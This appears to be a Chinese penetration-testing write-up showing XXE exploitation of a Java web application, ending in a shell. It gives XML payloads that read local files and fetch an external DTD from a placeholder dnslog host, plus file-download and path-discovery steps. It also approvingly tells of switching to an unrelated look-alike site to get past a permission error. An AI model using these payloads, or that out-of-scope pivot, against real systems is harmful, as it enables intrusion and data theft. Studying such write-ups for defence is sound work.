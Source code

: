 #  Java实战篇-XXE漏洞利用从潜到深   
 进击的HACK   2025-02-13 12:48  
  
## 目标  
  
经典渗透场景   
- 登录框（授权合法渗透）  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibyhXPNOCerMsjfaqC27gNJZEQKjichbFwiaeUbDrysJPicUZLk5jCzKbf06hGqmia9ibz7eeGXUiarvDhEse4ZJkqUTw/640?wx_fmt=png&from=appmsg "")  
## 初步挖掘  
  
发现某  
JSP路径返回包泄露了代码信息，且疑似存在XXE漏洞  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibyhXPNOCerMsjfaqC27gNJZEQKjichbFw4gZHrhodhdG7aaKTD9fAX396UlND8Iic26xLJoCon1ZiafvnO1wGYf7g/640?wx_fmt=png&from=appmsg "")  
  
通过泄露的代码构造出  
post请求包  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibyhXPNOCerMsjfaqC27gNJZEQKjichbFwfOEoQrzTRcvB8omwG6c3Ps88OCWgek3t62piaYg2Syibv69Hd5na3bHQ/640?wx_fmt=png&from=appmsg "")  
  
测试，漏洞存在  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibyhXPNOCerMsjfaqC27gNJZEQKjichbFwJxxxgxMuWRMq9lcuHUyJVSbsUwlRShkrkGecECiaQF4fqwK4khCorVw/640?wx_fmt=png&from=appmsg "")  
  
Poc：  
<table><tbody><tr><td width="426" valign="top" style="padding: 0pt 5.4pt;border-width: 1pt;border-color: windowtext;"><p style="line-height:150%;"><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;">&lt;?xml version=&#34;1.0&#34; encoding=&#34;UTF-8&#34;?&gt;&lt;!DOCTYPE ANY [</span><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;"><o:p></o:p></span></p><p style="line-height:150%;"><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;">&lt;!ENTITY % file SYSTEM &#34;file:///C:\Windows\win.ini&#34;&gt;</span><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;"><o:p></o:p></span></p><p style="line-height:150%;"><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;">&lt;!ENTITY % dtd SYSTEM &#34;http://xxe.</span><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;">xxx</span><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;">.</span><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;">dnslog</span><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;">.</span><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;">cn</span><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;">/xxe&#34;&gt;</span><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;"><o:p></o:p></span></p><p style="line-height:150%;"><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;">%dtd;</span><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;"><o:p></o:p></span></p><p style="line-height:150%;"><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;">%send;</span><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;"><o:p></o:p></span></p><p style="line-height:150%;"><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;">]&gt;</span><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;"><o:p></o:p></span></p><p style="line-height:150%;"><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;">&lt;root&gt;</span><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;"><o:p></o:p></span></p><p style="line-height:150%;"><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;">&lt;name&gt;&amp;b;&lt;/name&gt;</span><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;"><o:p></o:p></span></p><p style="line-height:150%;"><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;">&lt;/root&gt;</span><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;"><o:p></o:p></span></p></td></tr></tbody></table>  
**插曲 - XXE复习**  
  
**参考文章：******  
  
https://forum.butian.net/share/2573  
  
https://www.heetian.com/info/565  
  
XXE漏洞指的是**XML外部实体注入**  
（  
XML External Entity Injection）漏洞，它是一种常见的安全漏洞类型，可以用来攻击基于XML的应用程序。当应用程序接受XML输入时，攻击者可以插入带有外部实体引用的恶意XML数据，从而导致应用程序执行未经授权的操作，比如访问本地文件系统、执行远程代码等。攻击者可以通过利用XXE漏洞来获取敏感信息、控制服务器，或者执行其他恶意操作  
  
**读取文件******  
  
在进行利用之前应该先测试下，目标环境有无**回显**，是否**支持外部实体**。  
<table><tbody><tr><td width="426" valign="top" style="padding: 0pt 5.4pt;border-width: 1pt;border-color: windowtext;"><p style="margin-top:12.0000pt;margin-bottom:8.0000pt;mso-pagination:widow-orphan;line-height:150%;"><span style="font-family: 宋体;line-height: 150%;color: rgb(36, 41, 47);letter-spacing: 0pt;font-size: 12pt;background: rgb(255, 255, 255);"><span style="font-family:宋体;">检查是否支持外部实体</span></span><span style="font-family: 宋体;line-height: 150%;color: rgb(36, 41, 47);letter-spacing: 0pt;font-size: 12pt;background: rgb(255, 255, 255);"><o:p></o:p></span></p><p style="margin-top:12.0000pt;margin-bottom:8.0000pt;mso-pagination:widow-orphan;line-height:150%;"><span style="font-family: 宋体;line-height: 150%;color: rgb(36, 41, 47);letter-spacing: 0pt;font-size: 12pt;background: rgb(255, 255, 255);"><span style="font-family:宋体;">&lt;?xml version=&#34;1.0&#34; encoding=&#34;UTF-8&#34;?&gt;</span></span><span style="font-family: 宋体;line-height: 150%;color: rgb(36, 41, 47);letter-spacing: 0pt;font-size: 12pt;background: rgb(255, 255, 255);"><o:p></o:p></span></p><p style="line-height:150%;"><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;"> </span></p><p style="margin-top:12.0000pt;margin-bottom:8.0000pt;mso-pagination:widow-orphan;line-height:150%;"><span style="font-family: 宋体;line-height: 150%;color: rgb(36, 41, 47);letter-spacing: 0pt;font-size: 12pt;background: rgb(255, 255, 255);"><span style="font-family:宋体;">%foo;</span></span><span style="font-family: 宋体;line-height: 150%;color: rgb(36, 41, 47);letter-spacing: 0pt;font-size: 12pt;background: rgb(255, 255, 255);"><o:p></o:p></span></p><p style="margin-top:12.0000pt;margin-bottom:8.0000pt;mso-pagination:widow-orphan;line-height:150%;"><span style="font-family: 宋体;line-height: 150%;color: rgb(36, 41, 47);letter-spacing: 0pt;font-size: 12pt;background: rgb(255, 255, 255);"><span style="font-family:宋体;">]&gt;</span></span><span style="font-family: 宋体;line-height: 150%;color: rgb(36, 41, 47);letter-spacing: 0pt;font-size: 12pt;background: rgb(255, 255, 255);"><o:p></o:p></span></p><p style="margin-top:12.0000pt;margin-bottom:8.0000pt;mso-pagination:widow-orphan;line-height:150%;"><span style="font-family: 宋体;line-height: 150%;color: rgb(36, 41, 47);letter-spacing: 0pt;font-size: 12pt;background: rgb(255, 255, 255);"><span style="font-family:宋体;">查看你的服务器是否有请求</span></span><span style="font-family: 宋体;line-height: 150%;color: rgb(36, 41, 47);letter-spacing: 0pt;font-size: 12pt;background: rgb(255, 255, 255);"><o:p></o:p></span></p></td></tr></tbody></table>  
**不同平台支持的协议******  
  
注意：  
jdk1.8开始不再支持gopher协议  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibyhXPNOCerMsjfaqC27gNJZEQKjichbFwtLicRCNPkF6Rx8bkys67ibeuzoF4ibIh56xh7PMg8xcJBWicSHLEA3rq2g/640?wx_fmt=png&from=appmsg "")  
  
**Java环境下读取文件******  
  
1、netdoc协议和file协议的作用是一样的，都可以读取文件  
  
2、Java环境下可以使用file协议读取列目录，和ls作用类似  
  
3、在Java环境中，我们可以使用CDATA来读取包含特殊字符的文本数据，避免XML解析器对其进行解析。但是也只能读取一些简单的文本文件，如果文本中含有&或%还是无法进行读取。  
  
如下：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibyhXPNOCerMsjfaqC27gNJZEQKjichbFwDohk88wGtYPceIqfTESyPKLONaXgdab0wXmLQ5tKg6PWXKfWrzZBOg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibyhXPNOCerMsjfaqC27gNJZEQKjichbFwPUKia75Tg8IrdZI9cTm4ibWibIy6QvibMWgg6lbVEHZn79Z8yFrQLAicQ5A/640?wx_fmt=png&from=appmsg "")  
## 深入挖掘  
  
至此，脑中已有大体思路，那就是利用  
XXE外带或者回显读文件来进一步扩大攻击面；由于Java下用  
file和CDATA也无法读取内容含&、%、中文等文件，所以不能读jsp，class等文件，可以选择读向日葵，web.xml等文件来尝试getshell。****  
  
**报错找绝对路径******  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibyhXPNOCerMsjfaqC27gNJZEQKjichbFwVia9JJN8icz99CVfCuS6O8vKzMoXE8RMwtbTOkEK2qfgUmLPQ9qrVWCg/640?wx_fmt=png&from=appmsg "")  
  
<table><tbody><tr><td width="426" valign="top" style="padding: 0pt 5.4pt;border-width: 1pt;border-color: windowtext;"><p style="line-height:150%;"><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;">&lt;?xml version=&#34;1.0&#34;?&gt;</span><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;"><o:p></o:p></span></p><p style="line-height:150%;"><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;">&lt;!DOCTYPE foo [</span><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;"><o:p></o:p></span></p><p style="line-height:150%;"><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;">    <span style="font-family:宋体;">&lt;!ELEMENT foo ANY&gt;</span></span><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;"><o:p></o:p></span></p><p style="line-height:150%;"><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;">    <span style="font-family:宋体;">&lt;!ENTITY xxe SYSTEM &#34;file&#34;&gt;</span></span><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;"><o:p></o:p></span></p><p style="line-height:150%;"><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;">]&gt;</span><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;"><o:p></o:p></span></p><p style="line-height:150%;"><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;">&lt;service&gt;</span><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;"><o:p></o:p></span></p><p style="line-height:150%;"><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;">    <span style="font-family:宋体;">&lt;serviceID&gt;&amp;xxe;&lt;/serviceID&gt;</span></span><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;"><o:p></o:p></span></p><p style="line-height:150%;"><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;">    <span style="font-family:宋体;">&lt;parameters&gt;</span></span><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;"><o:p></o:p></span></p><p style="line-height:150%;"><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;">        <span style="font-family:宋体;">&lt;parameter index=&#34;&#34; type=&#34;&#34;&gt;&lt;/parameter&gt;</span></span><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;"><o:p></o:p></span></p><p style="line-height:150%;"><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;">    <span style="font-family:宋体;">&lt;/parameters&gt;</span></span><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;"><o:p></o:p></span></p><p style="line-height:150%;"><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;">&lt;/service&gt;</span><span style="font-family:宋体;line-height:150%;font-size:12.0000pt;mso-font-kerning:1.0000pt;"><o:p></o:p></span></p></td></tr></tbody></table>  
**列目录、读文件******  
  
利用本地  
DTD进行文件读取  
时发现权限不够，被拒绝访问了  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibyhXPNOCerMsjfaqC27gNJZEQKjichbFwVRtSaUClRqLQ6hmiarvY9LqyQUEZGz9HGRkRqia5466byBwMahJuk6NQ/640?wx_fmt=png&from=appmsg "")  
  
小问题，这可难不倒我胡图图，寻找同指纹站点，找个权限高的，便可解决问题  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibyhXPNOCerMsjfaqC27gNJZEQKjichbFwtA6COIzhwQPwEMkA9rgF3gmAKgzkICABDicLnYBOMERNbVQFOKAwocg/640?wx_fmt=png&from=appmsg "")  
  
更换站点后，顺利读取目标  
web目录  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibyhXPNOCerMsjfaqC27gNJZEQKjichbFwpgrgmGYibia0t6u0k3dPR09s1bUZSIbAXhRfu76QtMt0LjBfvnDqvxpg/640?wx_fmt=png&from=appmsg "")  
  
通过读  
web.xml+黑盒测试，发现任意下载漏洞  
  
web.xml中存在未授权的文件操作接口  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibyhXPNOCerMsjfaqC27gNJZEQKjichbFwdvSl511Ytic0E3CgibDC9Tjgc1zGsibFz9wFrDmpibCkFGdlsyQ6N5VfmA/640?wx_fmt=png&from=appmsg "")  
  
黑盒，存在任意文件下载漏洞  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibyhXPNOCerMsjfaqC27gNJZEQKjichbFwIWiaDKzicgFtSd32rgpZH1OZcC2CiaAyOUbEaT3MoSpicGGgumtZ8KVicnw/640?wx_fmt=png&from=appmsg "")  
  
有了任意下载，接下来的渗透之路譬如探朗取物般简单，通过任意下载，将  
class文件下载到本地进行阅读  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibyhXPNOCerMsjfaqC27gNJZEQKjichbFwQo3dBgPKWpiaLiaEwfhS5L6msBlthMpxLcAjc9nQCyYHNQlg44Ug698w/640?wx_fmt=png&from=appmsg "")  
  
成功  
getshell  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibyhXPNOCerMsjfaqC27gNJZEQKjichbFwcgyF0iclWoN0Cibrae2BSTsOBIiaKS1dhOM6ibDm1l41EX9Ile1pibW5geQ/640?wx_fmt=png&from=appmsg "")  
  
最终完成曲折的日站之旅  
## 总结  
  
平常看了些许  
XXE漏洞利用文章，等到自己实际上手时还是很抓瞎  
  
千学不如一看，千看不如一练  
  
  
  
  
技术交流微信：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibyhXPNOCerMsjfaqC27gNJZEQKjichbFwNZIlJK1jjjPtKpGcbbKzmtIdnia86nNxgbvUOG8Leiawx3KSfK7wB7kw/640?wx_fmt=png&from=appmsg "")  
  
  
